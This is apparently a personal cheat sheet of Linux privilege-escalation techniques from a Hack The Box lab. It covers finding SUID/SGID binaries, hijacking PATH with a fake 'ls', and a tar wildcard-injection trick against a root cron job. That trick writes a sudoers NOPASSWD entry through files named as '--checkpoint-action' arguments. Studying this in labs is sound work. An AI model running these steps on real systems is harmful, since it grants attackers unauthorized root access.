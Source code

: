 	ls ~/.ssh

## Check priveledges

Check files that have setuid for root

	find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

Check for files for the setgroupid

	find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null

We might be able to use gtfobins if one of these commands are allowed to run as root

https://gtfobins.github.io/

## Check PATH abuse

If some script is running with sudo and we can change the PATH var, then we can use it to run commands as sudo, for example:

	touch ls
	echo 'echo "PATH ABUSE!!"' > ls
	chmod +x ls
	PATH=.:${PATH}
	export PATH
	echo $PATH

If ls is then called by the root user, or an user with sudo priveleges, we execute commands with those privileges

## Check for Wildcard abuse

If commands are being runned in sudo that contain wildcards like *, we may be able to inject commands that will be run as sudo example:

	a cron with:

	mh dom mon dow command
	*/01 * * * * cd /home/htb-student && tar -zcf /home/htb-student/backup.tar.gz *

	then in the dir /home/htb-student we do the following commands:

	echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
	echo "" > "--checkpoint-action=exec=sh root.sh"
	echo "" > --checkpoint=1

	the two --checkpoints arguments will be added to the tar * and execute the root.sh script as sudo
	Simple trick behind this technique is that when using shell wildcards, especially asterisk (*), Unix shell will interpret files beginning with hyphen (-) character as command line arguments to executed command/program.

Commands susceptible to this are:

	tar
	chown
	chmod
	rsync
	7z
	zip
